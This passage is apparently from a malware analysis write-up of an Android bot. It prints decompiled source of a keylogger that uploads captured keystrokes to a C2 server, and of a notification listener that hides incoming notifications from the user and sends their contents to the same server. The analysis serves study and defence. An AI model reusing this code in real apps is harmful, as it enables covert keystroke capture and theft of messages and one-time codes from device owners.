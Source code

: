 ```cs
            Log.d("!!!!!", " SEND DATA TO SERVER " + this.candidateToPass);
            KeyLoggerModel keyLoggerModel0 = (KeyLoggerModel)this.candidateToPass.get(0);
            HashMap hashMap0 = new HashMap();
            hashMap0.put("messages", this.candidateToPass);
            this.api().makePost("device/kl", hashMap0).enqueue(new RestCallback() {
                @Override  // com.sdktools.android.bot.rest.RestCallback
                public void onError(Throwable throwable0) {
                    KeyLoggerComponent.this.isRequestInProgress.set(false);
                }

                @Override  // com.sdktools.android.bot.rest.RestCallback
                public void onSuccess(RestResponse restResponse0) {
                    KeyLoggerComponent.this.candidateToPass.clear();
                    KeyLoggerComponent.this.isRequestInProgress.set(false);
                }
            });
        }
    }

```


# Classic Features

## Notification intercepting

The malware will try to intercept notification using `onNotificationPosted` callback located in `com.sdktools.android.bot.components.commands`. The malware will intercept the comming notifications and  hide them from the user. Then push/upload the content of the notification to the C2 server.

```cs
 public void onNotificationPosted(StatusBarNotification statusBarNotification0) {
        Log.i(this.TAG, "**********  onNotificationPosted");
        if(SharedPrefHelper.getIsHiddenPushEnabled(this)) {
            this.cancelNotification(statusBarNotification0.getKey());
        }

        Notification notification0 = statusBarNotification0.getNotification();
        String s = notification0.extras.getString("android.title");
        String s1 = notification0.extras.getString("android.text");
        Timber.d("!!!!!", new Object[]{"title - " + s + " | description - " + s1 + " | app - " + statusBarNotification0.getPackageName()});
        String s2 = "Title - " + s + "\nDescription - " + s1;
        try {
            this.sendNotification(statusBarNotification0.getPackageName(), s2);
        }
        catch(Exception unused_ex) {
            return;
        }

        Timber.d("!!!!!", new Object[]{"cancel notification. Hidden"});
    }

    @Override  // android.service.notification.NotificationListenerService
    public void onNotificationRemoved(StatusBarNotification statusBarNotification0) {
        Timber.d("!!!!!", new Object[]{"********** onNOtificationRemoved"});
    }

    private void sendNotification(String s, String s1) {
        HashMap hashMap0 = new HashMap();
        hashMap0.put("appId", s);
        hashMap0.put("text", s1);
        try {
```